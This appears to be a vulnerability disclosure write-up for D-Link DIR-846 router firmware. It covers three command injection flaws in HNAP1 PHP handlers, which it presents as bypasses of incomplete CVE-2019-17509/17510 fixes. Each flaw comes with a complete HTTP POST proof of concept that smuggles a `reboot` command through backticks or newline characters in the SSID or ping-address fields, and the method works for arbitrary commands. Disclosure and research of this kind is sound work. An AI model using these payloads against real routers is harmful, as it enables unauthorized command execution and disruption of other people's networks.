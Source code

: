 # DIR-846_Command_Injection

#### Impact equipment

D-LINK DIR-846 (Rev A) ALL

#### Firmware

DIR846A1_FW100A43 link http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-846

DIR846enFW100A53DLA-Retail.bin link https://la.dlink.com/la/ftp_download.php?arch=DIR-846/DIR846enFW100A53DLA-Retail.bin

## Vulnerability1

#### Describe

​	The latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  has a command injection vulnerability in HNAP1/control/SetMasterWLanSettings.php. Attackers can use this vulnerability to use "\n" or backticks to bypass the shell metacharacters in the ssid0 or ssid1 parameters to execute arbitrary commands.

#### Detail

​	This vulnerability is due to the fact that **CVE-2019-17509** is not fully patched and can be bypassed by using line breaks or backticks on its basis.

<img src="./img/image-20211226102113922.png" alt="image-20211226102113922" style="zoom:50%;" />

#### POC

 ```
 POST /HNAP1/ HTTP/1.1
 Host: 192.168.0.1
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
 Accept: application/json
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/json
 SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
 HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
 Content-Length: 284
 Origin: http://192.168.0.1
 Connection: close
 Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
 Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2
 
 {"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"`reboot`","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"1","wl(1).(0)_ssid":"\nreboot\n","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
 ```

#### TEXT

​	The following data packets will cause the router to restart	<img src="./img/image-20211226102955168.png" alt="image-20211226102955168" style="zoom:50%;" />

## Vulnerability2
#### Describe

​	HNAP1/control/SetWizardConfig.php in the latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  represents an injection vulnerability. Attackers can use this vulnerability to use "\n" or backticks in the shell metacharacters in the ssid0 or ssid1 parameters to cause arbitrary command execution.

#### Detail

​	Since the CVE-2019-17510 vulnerability has not been patched and perfected /squashfs-root/www/HNAP1/control/ SetWizardConfig.php, you can also use \n and single quotes to bypass

<img src="./img/image-20211226104615847.png" alt="image-20211226104615847" style="zoom:50%;" />

#### POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
Content-Length: 76
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2

{"SetWizardConfig":{"wl(1).(0)_ssid":"`reboot`","wl(0).(0)_ssid":"aa\nreboot\n"}}
```

#### TEXT

<img src="./img/image-20211226105603738.png" alt="image-20211226105603738" style="zoom:50%;" />

## Vulnerability3

#### Describe

There is command injection in HNAP1/control/SetNetworkTomographySettings.php of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin, and backticks can be used for command injection when judging whether it is a reasonable domain name.

#### Detail

The following domain names can be constructed for command injection

```
www.baidu.com/'`reboot`'
```

<img src="./img/image-20211222113830764.png" alt="image-20211222113830764" style="zoom:50%;" />

#### POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: B573700726C0DE33335368EFA98967D4 1640426452615
Content-Length: 199
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html?t=1640426411756
Cookie: uid=yo1BBSdJ; PrivateKey=F307B0A38DD86259C01188B535369C5A; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=4

{"SetNetworkTomographySettings":{"tomography_ping_address":"www.baidu.com/'`reboot`'","tomography_ping_number":"22","tomography_ping_size":"40","tomography_ping_timeout":"","tomography_ping_ttl":""}}
```

#### TEXT

​	The router sending the packet will restart

<img src="./img/image-20211226103503414.png" alt="image-20211226103503414" style="zoom:50%;" />
